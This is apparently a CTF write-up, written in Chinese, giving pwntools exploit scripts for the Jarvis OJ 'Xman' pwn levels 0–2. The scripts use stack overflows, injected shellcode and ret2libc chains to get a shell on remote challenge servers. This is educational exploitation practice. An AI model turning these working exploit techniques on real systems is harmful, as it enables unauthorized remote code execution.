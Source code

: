 ```yaml
---
title: Xman_Pwn
---
```

### level0 
简单栈溢出    
```.py
from pwn import *

#x=process("./level0")
x=remote("pwn2.jarvisoj.com",9881)

payload=0x80*"a"+8*"a"
payload+=p64(0x0000000000400596)

x.send(payload)
x.interactive()
```
### level1
简单栈溢出，需要自己构造shellcode，pwntools里面有shellcraft可自动生成shellcode，返回地址填充为buf地址。
```.py
from pwn import *

#x=process("./level1")
x=remote("pwn2.jarvisoj.com",9877)

x.recvuntil(":")
jmpaddr=x.recvuntil("?")[:-1]
jmpaddr=int(jmpaddr,16)
print jmpaddr

shellcode=asm(shellcraft.sh())
print shellcode

payload=shellcode
payload+=(0x88+4-len(shellcode))*"a"
payload+=p32(jmpaddr)

x.send(payload)
x.interactive()
```
### level2(x64)
简单x64栈溢出，和level0类似，但是x64的传参顺序是rdi,rsi,rdx,rcx,r8,r9。所以返回地址覆盖成pop rdi。
```.py
from pwn import *                                                
                                                                 
s=remote("pwn2.jarvisoj.com",9882)                               
                                                                 
x=ELF("./level2_x64")                                            
sysaddr=x.plt["system"]                                          
print sysaddr                                                    
shaddr=x.search('/bin/sh').next()                                
print shaddr                                                     
                                                                 
popridaddr=0x00000000004006B3                                    
payload=(0x80+8)*"a"+p64(popridaddr)+p64(shaddr)+p64(sysaddr)    
                                                                 
s.send(payload)                                                  
s.interactive()         
```                                         
### level2
栈溢出    
```.py
from pwn import *

s=remote("pwn2.jarvisoj.com",9878)

x=ELF("./level2")
sysaddr=x.symbols["system"]
shaddr=x.search('/bin/sh').next()

payload=(0x88+4)*"a"+p32(sysaddr)+p32(11)+p32(shaddr)

s.send(payload)
s.interactive()
```
### level3 

